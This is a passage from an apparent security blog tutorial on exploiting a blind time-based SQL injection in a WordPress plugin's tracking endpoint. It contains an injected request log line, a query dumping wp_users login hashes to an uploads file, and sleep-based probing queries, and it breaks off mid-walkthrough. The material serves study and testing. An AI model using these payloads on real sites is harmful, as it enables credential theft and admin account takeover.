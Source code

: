 172.19.0.1 - - [10/Jul/2023:13:47:45 +0000] "GET /?wmcAction=wmcTrack&siteId=34&url=test&uid=01&pid=02&visitorId=0017%20-%20You%27,%20%20%20%20%20%20%20%20%20%20%20sleep(1),0,0,0,0,0);--+- HTTP/1.1" 200 267 "-" "python-requests/2.31.0"
</code></pre>

The first grep narrows the logs to all those with visitorId and then the second grep removes all requests with a valid visitorId leaving only the garbage we want.

Back to our attack.  We can grab the admin user hash and break offline, or we could also add an admin user and log on with that. There's also command execution potential. 

One issue is that this is a "Blind SQL Injection". We get no errors messages, nor can we output text returned from a SQL statement. Additionally the vulnerable query is an INSERT statement which forces us to use a subquery and complicates the syntax. 

What can we do with this vulnerability?

To grab data we can use a blind timed SQL select statement in a subquery, and code up a binary search to iteratively match one character at a time. The idea is that a successful query will result in a known delay, but a failed query will return very quickly. It's a bit of a chore... maybe we can be lazy and write the output somewhere accessible from outside. 

Let's see what being lazy gets us.
It’s tempting to do something like:
<pre><code>
select concat_ws(":", user_login, user_pass) from wp_users into outfile "/var/www/html/wp-content/uploads/creds.txt";
</code></pre>
However keep in mind this dockerized test app has the database and web server container isolated from each other, so there’s no saving of database content to a web accessible file, neither can we write a PHP webshell somewhere in the site. Defense in depth FTW. 

Blind time-based binary search it is!

You’ll want to develop very simple test queries to verify your syntax and execution quickly.

<pre><code>
(select if(1=1,sleep(10),0))
select substr('test',1,1);
</code></pre>

Also play in a test MySQL to work out more complicated queries.
<pre><code>
select if(substr('test',1,1) between "r" and "z","yup","nope");
+---------------------------------------------------------+
| if(substr('test',1,1) between "r" and "z","yup","nope") |
+---------------------------------------------------------+
| yup                                                     |
+---------------------------------------------------------+
</code></pre>

Progressively expand your queries:
<pre><code>
(select if(substr('test',1,1) between "r" and "z",sleep(5),"nope"))
